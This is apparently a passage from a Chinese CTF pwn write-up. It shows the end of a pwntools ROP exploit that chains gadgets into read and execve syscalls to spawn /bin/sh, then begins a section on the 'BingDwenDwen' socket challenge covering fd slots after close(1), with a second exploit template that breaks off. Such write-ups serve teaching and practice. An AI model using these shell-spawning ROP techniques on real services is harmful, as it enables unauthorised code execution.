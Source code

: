 ```python
# 里边存放的是init函数的地址0x400520(进行了一个rax是否为0的检测然后ret）dym段
# 同理也可以跳转到fini，0xc01ca*8=0x600e50 里面是0x400804（fini的地址）
payload += p64(0xc01c9)
payload += p64(0)
payload += p64(59)# sys_read执行完后会将读入的字节数存在rax中,59是execve
payload += p64(0x601060)# stdout 这里作一个输入区
payload += p64(0)
payload += p64(0x4007D0)# gadget1

payload += 'a'*8# 前面有个压低栈的行为，这里抬高，防止压低影响寄存器取值
payload += p64(0xc020d)
# 这里*8 = 0x601068 即stdout+8 
payload += p64(0xc020e)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0x601060)
payload += p64(0x40077e)# syscall->0->read
payload += p64(0x4007d0)# 再跑一次gadget1赋值
payload += 'e'*0x10# 填满补齐0x100
success("len:"+hex(len(payload)))
# gdb.attach(p)
p.send(payload)
payload = "/bin/sh\x00" + p64(0x40077e) + "\x00"*43 # sys_call->59->execve
p.sendline(payload)# sys_read
p.interactive()
```

## BingDwenDwen

一道经典的socket+connect，由于ban了mprotect，题目特意给了一个汇编写的backdoor，以及一些gadget，主要用来构造rop链

谈一下关于close(1)这种关闭的理解，它更像是关闭了fd槽位，对stdout以及_IO_2_1_stdout无影响，只需要开启对应槽位即可激活

比如这题socket开启了fd=0，输入也就可用了，我们再用dup开启fd=1，输出也就可用了。

狠一点的话就要用`fclose(stdout)`

![image-20220621221635451](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220621221635451.png)

![image-20220621221704726](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220621221704726.png)

![image-20220621221647233](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220621221647233.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import socket
import struct
# context.log_level='debug'

p = process("./pwn")
# p = remote("node4.buuoj.cn","28559")
elf = ELF("./pwn")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
```